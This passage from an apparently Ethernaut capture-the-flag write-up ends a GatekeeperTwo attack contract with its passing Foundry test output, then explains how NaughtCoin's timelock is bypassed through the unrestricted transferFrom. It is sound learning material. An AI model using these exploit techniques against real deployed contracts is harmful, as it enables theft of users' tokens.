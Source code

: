 ``` solidity
            (uint64(bytes8(keccak256(abi.encodePacked(address(this)))))) ^ 
            type(uint64).max
        );
        gatekeeperTwo.enter(gateKey);
    }
}
```
### 📋 Test Output
``` text
[PASS] test_attack() (gas: 142998)
Logs:
  ✅ Attack Successful!
  i value: 456
  gasleft: 24873
  gateKey: abcdefab00001f38

Traces:
  [142998] GatekeeperTwoTest::test_attack()
    ├─ [107817] → new Attack@0x2e234DAe75C793f67A35089C9d99245E1C58470b
    │   ├─ [23405] GatekeeperTwo::enter(0x8709462d480d6ec3)
    │   │   └─ ← [Return] true
    │   └─ ← [Return] 290 bytes of code
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 20.01ms (8.27ms CPU time)

Ran 1 test suite in 1.21s (20.01ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

```
---

## Level 16: NaughtCoin

**AttackDesc**:The contract uses a lockTokens modifier to restrict the transfer function, preventing the original player from transferring tokens until a 10-year timelock has passed. However, the contract does not restrict transferFrom, which is part of the ERC20 standard. By approving a spender (attacker), the tokens can be transferred out before the timelock.

### 🔍 Vulnerable Function
``` solidity
function transfer(
    address _to,
    uint256 _value
) public override lockTokens returns (bool) {
    super.transfer(_to, _value);
}
```
**Vulnerability**:
The lockTokens modifier only applies to the transfer() function.
Since transferFrom() is inherited from the ERC20 base and not overridden, it bypasses the timelock restriction. This allows a player to approve someone else (e.g., an attacker) to transfer all tokens out immediately.
